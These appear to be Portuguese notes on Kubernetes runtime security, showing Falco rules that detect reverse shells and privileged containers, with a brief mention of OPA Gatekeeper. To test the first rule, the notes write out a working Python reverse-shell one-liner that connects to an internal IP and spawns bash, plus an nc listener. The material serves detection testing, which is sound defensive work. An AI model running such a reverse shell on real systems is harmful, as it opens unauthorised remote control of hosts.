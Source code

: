 
***Primeira rule: Shell Reversa***
```
- rule: Reverse shell
  desc: Detect reverse shell established remote connection
  condition: evt.type=dup and container and fd.num in (0, 1, 2) and fd.type in ("ipv4", "ipv6")
  output: >
    Se liga na shell (user=%user.name %container.info process=%proc.name parent=%proc.pname cmdline=%proc.cmdline terminal=%proc.tty container_id=%container.id image=%container.image.repository fd.name=%fd.name fd.num=%fd.num fd.type=%fd.type fd.sip=%fd.sip)
  priority: WARNING
  tags: [container, shell, mitre_execution]
  append: false
```


***Testando a role:***
```
Node: Nginx

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.142.0.42",32000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'



Control Plane

nc  -l 32000
```

***Segunda role: container privilegiado***
```
- rule: Launch Privileged Container
  desc: Detect the initial process started in a privileged container. Exceptions are made for known trusted images.
  condition: >
    container_started and container
    and container.privileged=true
    and not falco_privileged_containers
    and not user_privileged_containers
  output: container privilegiado aqui se liga (user=%user.name user_loginuid=%user.loginuid command=%proc.cmdline %container.info image=%container.image.repository:%container.image.tag)
  priority: WARNING
  tags: [container, cis, mitre_privilege_escalation, mitre_lateral_movement]
```



OPA
O projeto Open Policy Agent Gatekeeper pode ser aproveitado para ajudar a aplicar políticas e fortalecer a governança em seu ambiente Kubernetes
toda comunicação com a api passa pela liberaçao do OPA, seguindo as politicas definidas, como por exemplo evitar subir cluster privilegiados.
---
